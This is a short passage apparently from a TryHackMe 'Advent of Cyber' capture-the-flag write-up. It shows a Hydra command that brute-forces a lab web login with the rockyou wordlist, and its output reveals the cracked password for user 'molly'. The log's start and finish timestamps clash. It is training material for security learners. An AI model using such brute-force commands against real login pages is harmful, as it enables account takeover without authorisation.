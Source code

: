 ![](2020-10-03_09-10.png)

`hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.132.190 http-post-form "/login:username=^USER^&password=^PASS^:incorrect"`

```
bibo318@parrot:~/CTFs/tryhackme/Advent of Cyber$ hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.132.190 http-post-form "/login:username=^USER^&password=^PASS^:incorrect"
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-10-03 09:39:07
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.132.190:80/login:username=^USER^&password=^PASS^:incorrect
[STATUS] 1132.00 tries/min, 1132 tries in 00:01h, 14343267 to do in 211:11h, 16 active
[STATUS] 1229.00 tries/min, 3687 tries in 00:03h, 14340712 to do in 194:29h, 16 active
[STATUS] 1209.14 tries/min, 8464 tries in 00:07h, 14335935 to do in 197:37h, 16 active

[80][http-post-form] host: 10.10.132.190   login: molly   password: joyness1994
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-05-03 19:06:06
```

![](2020-10-03_09-37.png)

